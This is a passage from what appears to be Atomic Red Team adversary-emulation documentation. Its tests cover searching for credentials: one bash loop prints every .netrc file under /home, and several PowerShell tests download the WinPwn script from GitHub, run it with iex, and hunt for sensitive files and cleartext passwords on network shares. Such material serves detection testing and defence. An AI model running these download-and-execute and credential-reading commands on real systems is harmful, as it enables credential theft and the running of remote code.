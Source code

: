 #### Inputs:

| Name      | Description    | Type   | Default Value |
| --------- | -------------- | ------ | ------------- |
| file_path | Path to search | string | /home         |

#### Attack Commands: Run with `bash`!

```bash
for file in $(find #{file_path} -type f -name .netrc 2> /dev/null);do echo $file ; cat $file ; done
```

<br/>
<br/>

## Atomic Test #7 - WinPwn - sensitivefiles

Search for sensitive files on this local system using the SensitiveFiles function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 114dd4e3-8d1c-4ea7-bb8d-8d8f6aca21f0

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sensitivefiles -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #8 - WinPwn - Snaffler

Check Domain Network-Shares for cleartext passwords using Snaffler function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** fdd0c913-714b-4c13-b40f-1824d6c015f2

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Snaffler -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #9 - WinPwn - powershellsensitive
